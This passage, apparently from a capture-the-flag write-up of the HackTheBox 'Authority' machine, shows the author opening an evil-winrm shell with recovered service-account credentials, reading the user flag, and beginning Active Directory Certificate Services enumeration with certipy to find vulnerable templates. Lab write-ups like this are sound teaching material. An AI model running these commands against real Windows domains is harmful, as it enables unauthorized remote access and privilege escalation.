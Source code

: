 
I’ll go directly to WinRM and get a shell:

    
    
    oxdf@hacky$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc_ldap\Documents>
    

And the user flag:

    
    
    *Evil-WinRM* PS C:\Users\svc_ldap\desktop> cat user.txt
    31d4b9bf************************
    

## Shell as administrator

### Enumeration

#### Filesystem

The filesystem is quite bare. There no other user directory on the box other
than `Public` (which is empty) and `Admistrator` (which is where I want to
get):

    
    
    *Evil-WinRM* PS C:\users> ls
    
        Directory: C:\users
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        3/17/2023   9:31 AM                Administrator
    d-r---         8/9/2022   4:35 PM                Public
    d-----        3/24/2023  11:27 PM                svc_ldap
    

The IIS folders are empty, and I don’t see much of interest in the PWM
configs.

#### ADCS

It’s always worth enumerating ADCS on a Windows DC. I’ve shown `certipy`
(`pipx install certipy-ad`, [GitHub](https://github.com/ly4k/Certipy)) before
on [Absolute](/2023/05/27/htb-absolute.html#shadow-credential) and
[Escape](/2023/06/17/htb-escape.html#shell-as-administrator). I’ll use the
`find` command to identify templates, and with `-vulnerable` only show
vulnerable ones:

    
    
    oxdf@hacky$ certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    